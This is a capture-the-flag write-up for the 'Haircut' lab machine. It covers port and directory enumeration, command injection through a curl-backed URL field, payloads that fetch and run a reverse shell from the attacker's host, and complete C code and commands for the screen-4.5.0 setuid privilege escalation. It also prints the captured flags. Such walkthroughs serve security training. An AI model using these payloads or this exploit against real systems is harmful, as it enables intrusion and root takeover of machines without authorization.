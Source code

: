 # Haircut
>Author : Xyan1d3
>Date : 8th July 2021
>IP : 10.10.10.24
>OS : Linux
>Difficulty : Medium
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Thu Jul  8 16:10:05 2021 as: nmap -sC -sV -v -oN nmap/haircut 10.10.10.24
Nmap scan report for 10.10.10.24
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/haircut]
└──╼ # gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 500 -x php 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.24
[+] Method:                  GET
[+] Threads:                 500
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/07/08 21:21:09 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 194] [--> http://10.10.10.24/uploads/]
/exposed.php          (Status: 200) [Size: 446]
```

## Web Enumeration
We have a webpage that take a url link.
![[Pasted image 20210708212813.png]]

We could host listen on `nc` and point it on our server.
![[Pasted image 20210708212925.png]]
The server is using `curl` for sending requests to the server.
We may now try some command injection by bypassing the url checks.
We visit the link and find out that we get the output as get request on the webserver.
```txt
http://10.10.14.18/`whoami`
```
![[Pasted image 20210708230512.png]]

We try for normal bash payloads but, it does not work.So, We use a `base64` command to get the contents of the `exposed.php`.
```txt
http://10.10.14.18/`base64 -w0 exposed.php`
```

# Initial FootHold
On inspecting the file we see that some of the characters are blacklisted out.
We have to `curl` and download a `shell.sh` reverse shell into `/tmp/` directory and then execute it with `sh`.

1st payload : `10.10.14.18/shell.sh -o /tmp/shell.sh`
2nd payload : `10.10.14.18/shell.sh$(sh /tmp/shell.sh)`
We get a shell back as the `www-data` user.
![[Pasted image 20210708235926.png]]

## Getting the User Flag
```python
www-data@haircut:~$ cd /home/maria/Desktop/
www-data@haircut:/home/maria/Desktop$ ls -l
total 4
-r--r--r-- 1 root root 34 May 16  2017 user.txt
www-data@haircut:/home/maria/Desktop$ cat user.txt 
0b0da2af50e9ab7c81a6ec2c562afeae
```

# Root Escalation
We check the setuid binaries on the box and find out that we have a `screen-4.5.0` installed on the box with setuid bit set.
```python
www-data@haircut:~$ find / -perm /4000 2> /dev/null

*** SNIP ***

/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0

*** SNIP ***
```

The exploit for `screen-4.5.0` is given below.
![[Pasted image 20210709001207.png]]

We need to compile two codes on our box.
1st Code : `libhax.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
Compile command : `gcc -fPIC -shared -ldl -o libhax.so libhax.c`

2nd Code : `rootshell.c`
```c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
Compile Command : `gcc -o rootshell rootshell.c`

Now, We need to move the `rootshell` and `libhax.so` file into the `/tmp/` directory.
And issue these commands as follows.

```python
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```
![[Pasted image 20210709003222.png]]

## Getting the Root Flag
```python
root@haircut:/etc# cd /root/
root@haircut:/root# ls -l
total 4
-r--r--r-- 1 root root 33 May 16  2017 root.txt
root@haircut:/root# cat root.txt 
4cfa26d84b2220826a07f0697dc72151
```